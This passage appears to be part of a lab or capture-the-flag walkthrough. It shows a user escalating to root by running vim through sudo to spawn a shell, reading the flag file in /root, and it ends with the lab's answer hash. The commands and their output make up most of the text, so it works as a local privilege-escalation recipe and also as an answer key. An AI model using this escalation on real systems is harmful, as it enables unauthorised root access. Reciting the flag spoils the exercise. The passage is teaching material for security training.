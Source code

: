 ```shell
sudo /usr/bin/vim -c ':!/bin/sh'
```
```
zabbix@ubuntu:/$ sudo /usr/bin/vim -c ':!/bin/sh'

sudo /usr/bin/vim -c ':!/bin/sh'
Vim: Warning: Output is not to a terminal
Vim: Warning: Input is not from a terminal

E558: Terminal entry not found in terminfo
'unknown' not known. Available builtin terminals are:
    builtin_amiga
    builtin_ansi
    builtin_pcansi
    builtin_win32
    builtin_vt320

<SNIP>
```

Subsequently, students will query the contents of the `root.txt` file located in the `/root` directory to obtain the flag:

```shell
cat /root/root.txt
```
```
cat /root/root.txt

{hidden}
```

Answer: `7371c170c113fed700a17c4da7da7ebf`